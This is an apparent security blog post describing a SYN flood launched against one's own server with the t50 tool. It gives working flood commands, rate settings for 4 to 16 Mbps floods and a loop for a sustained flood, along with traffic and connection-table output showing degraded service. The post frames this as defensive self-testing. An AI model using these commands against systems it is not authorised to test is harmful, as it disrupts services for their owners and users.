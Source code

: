 ```yaml
---
title: "Syn Flood Testing"
excerpt_separator: "<!--more-->"
categories:
  - Blog
tags:
  - Security
  - DDOS
---
```



Launching a SYN flood.

Everyone know DDOS attacks happen and of these SYN floods may be the simplest to organize for attackers. As a defender you don't want the first time you see this kind of traffic to be when you are under attack.

Launching a SYN attack against yourself.
1. You can learn some tools of the trade
2. You can test the weakness of your services
3. You can mitigate those weaknesses

A tool that is simple to use is [t50](https://github.com/foreni-packages/t50)

### Launching a SYN Flood

> ./t50 <DEST_IP> --flood -S --turbo

```
entering in flood mode...
activating turbo...
hit CTRL+C to break.
...
T50 5.4.1 successfully launched on May 28th 2013 13:09:24
```

### On the destination [NOTE: SYN Cookies are enabled]

#### Traffic

```
    tx eth0: 1168 b/s rx eth0: 528 b/s
    tx eth0: 1056 b/s rx eth0: 9160 b/s
    tx eth0: 8616 b/s rx eth0: 528 b/s
    tx eth0: 4944 b/s rx eth0: 528 b/s

        *syn flood starts**

    tx eth0: 10 Mb/s rx eth0: 12 Mb/s
    tx eth0: 36 Mb/s rx eth0: 43 Mb/s
    tx eth0: 38 Mb/s rx eth0: 46 Mb/s
    tx eth0: 39 Mb/s rx eth0: 47 Mb/s
    tx eth0: 39 Mb/s rx eth0: 47 Mb/s
```


```
    possible SYN flooding on port 5666. Sending cookies.
    possible SYN flooding on port 5666. Sending cookies.
```


#### Connection Table

```plaintext
   while true; do netstat -n -p TCP tcp | grep  SYN_RECV | wc -l >> /tmp/syn.log; sleep 2; done

    0
    5
    6
    3
    2
    ...
    **syn flood**
    ...
    142
    140
    144
    143
    142
    142
    143
    142
    141
    141
    140
    137
    138
    140
    142
    142
    142
    145
    144
```

#### Effect

* Massive lag in responsiveness for CLI commands
* Simple web server with (python -m SimpleHTTPServer) crashed
* Top shows ksoftirqd/0 pegging CPU

### Guidance on size of flood

```plaintext
./t50 <target> --threshold 10000 -S #4Mbps
./t50 <target> --threshold 20000 -S #8Mbps
./t50 <target> --threshold 40000 -S #16Mbps

#more or less consisten 4Mbps flood
for i in {1..100}; do ./t50 <target> --threshold 10000 -S; sleep 3; done
```

### Reference

[t50](https://github.com/foreni-packages/t50)

